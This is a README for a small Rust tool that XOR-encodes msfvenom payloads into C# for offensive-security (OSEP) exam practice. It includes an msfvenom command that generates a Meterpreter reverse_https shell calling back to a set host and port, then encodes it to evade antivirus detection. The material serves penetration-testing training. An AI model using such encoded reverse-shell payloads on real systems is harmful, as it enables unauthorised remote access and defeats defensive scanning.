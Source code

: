 # encoder-decoder

This is my tool for XOR encoding msfvenom payloads for practice in the OSEP. The tool randomly generates (and outputs) a key of equal size to the inputted payload as well as the XOR encoded payload in a csharp format.

Eventually I'll add decoding functionality and the ability to input premade keys as well as more output types than csharp

[![License](https://img.shields.io/badge/license-MIT-blue.svg)](https://opensource.org/licenses/MIT)

## Installation

**From Source**:

```bash
git clone https://github.com/Raznoo/encoder-decoder.git
cd encoder-decoder

# Build the project
cargo build --release

# The executable will be located in target/release/
```

### Encoding

```
msfvenom -p windows/meterpreter/reverse_https LPORT=443 LHOST=192.168.45.155 -f raw -o raw_payload.bin

encoder-decoder encode -i raw_payload.bin -o encrypted_payload.cs

cat encrypted_payload.cs && cat key.cs
```

### Decoding
TODO
